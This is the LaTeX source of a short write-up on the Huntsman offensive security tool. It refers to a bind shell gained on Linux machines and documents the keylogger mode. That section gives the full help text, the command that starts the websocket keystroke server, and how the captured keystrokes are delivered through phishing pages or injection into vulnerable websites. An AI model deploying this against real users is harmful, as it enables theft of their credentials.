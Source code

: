 \documentclass[12pt]{article}
\begin{document}
The following screenshot shows that I've gained a bind shell into a linux machine (and also a Raspberry Pi running Linux) on my Mac machine:\\

\includegraphics[width=12cm, height=7cm]{bind}
\subsection{Keylogger}

A keylogger can log the keystrokes made by a user ,typically on a website. The logged keystrokes most of the times are crucial credentials of the users. Hackers use Credential Harvester (like keylogger) to steal your credentials.
Huntsman is the tool that contains a keylogger as well.\\

\begin{verbatim}
huntsman keylogger --help

This will run a keylogger server (a websocket) which also renders
	a HTML (with JS) client that captures the keystrokes and send 
	them to	this server, so we can know whatever the user is typing 
	on that webpage

Usage:
  huntsman keylogger [flags]

Flags:
  -h, --help                   help for keylogger
  -l, --listener-port string
                               	The port at which the listener server 
				should run on this machine (default "8192")
  -w, --ws-addr string         address of the websocket server 
  (default "localhost:8192")
\end{verbatim}


\verb|huntsman keylogger -w localhost:8192 -l 8192|

Using the above command you can run the keylogger, which will log all the inputs made to the HTML file named \textbf{logger.html} in the Huntsman github repository. The thing special about this html file is that it makes a websocket connection to the Huntsman keylogger websocket server and sends each keystoke to the server. In practical scenarios you need to have either a custom website which has this feature built into it (typically the phising websites) or find vulnerability in the website to inject this websocket connection to our huntsman keylogger server.\\
\end{document}
